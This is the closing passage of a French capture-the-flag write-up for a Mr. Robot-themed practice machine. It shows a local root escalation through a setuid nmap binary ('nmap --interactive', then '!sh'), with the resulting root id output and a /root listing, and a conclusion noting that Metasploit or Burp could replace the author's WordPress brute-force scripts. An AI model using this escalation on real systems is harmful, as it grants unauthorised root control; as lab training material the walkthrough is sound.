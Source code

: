 ```
/usr/lib/pt_chown

```

Tiens, le binaire nmap est setuid root !
Heureusement pour nous, nmap dispose d'une fonction lui permettant d'offrir un shell, ce qui siginifie pour nous, obtenir un shell root.

```

&lt;ps/wordpress/htdocs/wp-content/plugins/gSmqOhbMXe$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h &lt;enter&gt; for help
nmap&gt; !sh
!sh

# id

id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)

# ls -la /root

ls -la /root
total 32
drwx------ 3 root root 4096 Nov 13 2015 .
drwxr-xr-x 22 root root 4096 Sep 16 2015 ..
-rw------- 1 root root 4058 Nov 14 2015 .bash_history
-rw-r--r-- 1 root root 3274 Sep 16 2015 .bashrc
drwx------ 2 root root 4096 Nov 13 2015 .cache
-rw-r--r-- 1 root root 0 Nov 13 2015 firstboot_done
-r-------- 1 root root 33 Nov 13 2015 key-3-of-3.txt
-rw-r--r-- 1 root root 140 Feb 20 2014 .profile
-rw------- 1 root root 1024 Sep 16 2015 .rnd

```

And voila ! Nous sommes root sur la machine !

## Conclusion

Avec du recul, il n'était pas nécessaire de coder des scripts qui bruteforcent le wordpress, il existe des modules metasploit qui font ceci, un outil comme Burp peut aussi faire l'affaire.
Ce petit challenge est très simple et assez accessible, l’environnement est fidèle à l'esprit de la série, même si on peux regretter le manque de reverse/exploitation
